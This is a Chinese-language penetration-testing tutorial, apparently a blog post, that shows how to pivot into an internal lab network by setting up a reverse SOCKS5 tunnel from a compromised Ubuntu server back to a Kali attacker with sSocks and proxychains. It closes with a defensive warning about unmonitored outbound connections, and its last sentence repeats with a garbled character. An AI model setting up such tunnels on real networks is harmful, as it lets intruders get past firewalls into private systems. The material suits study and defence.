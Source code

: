 ```yaml
---
author: 星火燎原@vxhly
title: Socks 代理反弹突破内网
categories: [networking]
tags: [Network, Liunx, Pentest]
date: 2016-11-24 14:46:22
---
```


::: tip 前言
对于渗透测试者来说, 如何绕过防火墙的阻挡在内网展开渗透测试成为需解决的问题, 本文介绍了在夺取映射到外网的内网服务器权限后, 如何利用 Socks 代理反弹获得内网访问权限
:::
<!-- more -->

## 环境介绍

| 机子     | 系统                    | IP                                             |
|----------|-------------------------|------------------------------------------------|
| 攻击机   | `kali Liunx` | 192.168.199.130 (外网)                         |
| 目标主机 | `ubuntu-server` | 192.168.199.131 (外网)；192.168.235.143 (内网) |
| 内网主机 | `Metasploitable2-Liunx` | 192.168.235.142 (内网)                         |

## 工具介绍

### sSocks

sSocks 是一个 socks 代理工具套装, 可用来开启 socks 代理服务, 支持 socks5 验证, 支持 IPV6 和 UDP, 并提供反向 socks 代理服务, 即将远程计算机作为 socks 代理服务端, 反弹回本地, 极大方便内网的渗透测试

### 下载

[sSocks 更新地址](//sourceforge.net/projects/ssocks/)<br>
这里下载的版本为 `0.0.14` 

``` bash
wget https://nchc.dl.sourceforge.net/project/ssocks/ssocks-0.0.14.tar.gz
```

### 解压并编译

``` bash
tar -xzvf ssocks-0.0.14.tar.gz
cd ssocks-0.0.14
./configure && make
```

::: warning 注意
编译的时候要先确定机子上有 gcc 环境, 没有的请自行安装
:::

### 功能

编译完成, 进入 sr c 目录, 会发现有 `nsocks` 、 `ssocksd` 、 `ssocks` 、 `rcsocks` , 其功能说明介绍如下: 

* **nsocks** 类似通过 Socks5 代理后的 netcat, 可用来测试 socks server
* **ssocksd** 用来开启 Socks5 代理服务
* **ssocks** 本地启用 Socks5 服务, 并反弹到另一 IP 地址
* **rcsocks** 接收反弹过来的 Socks5 服务, 并转向另一端口

## 攻击步骤

现假设已获得 `ubuntu-server` 权限, 也将 ssocks 这软件上传至该服务器（包含解压和编译）

### 执行本地监听

机子: `kali Liunx` ；IP: `192.168.199.130` 

``` bash
cd ssocks-0.0.14/src
./rcsocks -l 1088 -p 1080 -vv
```

等待远程 Socks5 服务器访问本地 1080 端口, 创建端口 1080 与本地端口 1088 的连接通道<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-1.png)

### 开启 Socks5 代理服务, 反弹

机子: `ubuntu-server` ；IP: `192.168.199.131` 

``` bash
cd ssocks-0.0.14/src
./rssocks -vv -s 192.168.199.130:1080
```

启用 Socks5 服务, 反弹到 `192.168.199.130` （即 `kali Liunx` ） 的端口 1080 上<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-2.png)

此时在渗透测试端 `192.168.199.130` （即 `kali Liunx` ） 可看到通道连接成功<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-3.png)

### 利用 proxychains 进行 Socks5 代理

机子: `kali Liunx` ；IP: `192.168.199.130` 

#### proxychains 介绍

通过前面的步骤, Socks5 代理已创建完成了。由于在渗透测试过程中, 需要使用不同的工具程序, 而在各程序中分别配置 Socks5 代理信息较为繁琐, 而部分程序并不支持配置 Socks5 代理。为了简化这些操作, 我们可以采用 `proxychains` 。

proxychains 是一个代理客户端软件, 可以支持几乎所有程序的代理, 如 `ssh` , `telnet` , `ftp` 等。利用 `proxychains` , 程序能在代理的环境下被加载运行, 而本身不需要具备代理功能。

#### proxychains 下载

需要 git 环境, 在 `kali Liunx` 使用 `proxychains` 

``` bash
git clone https://github.com/haad/proxychains.git
```

#### 编译和安装

``` bash
cd proxychains
./configure
make && make install
```

#### 修改配置文件

使用前需要对 proxychains 进行简单配置, 打开配置文件 `/etc/proxychains.conf` 

在 `[ProxyList]` 处添加

``` bash
socks5 127.0.0.1 1088
```

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-4.png)

 配置成功后若要启动程序, 仅需要在启动程序命令前加上 `proxychains` 

### 启用浏览器 firefox

机子: `kali Liunx` ；IP: `192.168.199.130` 

``` bash
proxychains firefox
```

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-5.png)

### 访问内网机子

机子: `kali Liunx` ；IP: `192.168.235.143` 

::: warning 注意
现在已经可以直接访问内网主机了, IP: `192.168.235.142` 
:::

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-6.png)

随便点个链接, 然后再看一眼 `ubuntu-server` 中的日志, 成功访问到内网中的页面<br>

![Socks 代理](http://oss-blog.test.upcdn.net/socks-proxy-7.png)

## 后记

由于系统管理员的疏忽或者业务需求所致, 防火墙一般仅对由外向内发起的数据连接进行严格判断、过滤、甚至阻断而忽略由内往外的连接。因此, 在此种情况下, 通过攻陷映射到公网的端口服务, 利用反弹便可获取内网访问权限, 给内网安全带来极大的威胁。在信息安全建设与运维过程中, 不仅要加强映射到公网的服务安全, 也要重视由内到外连接的安全威胁 � 维过程中, 不仅要加强映射到公网的服务安全, 也要重视由内到外连接的安全威胁

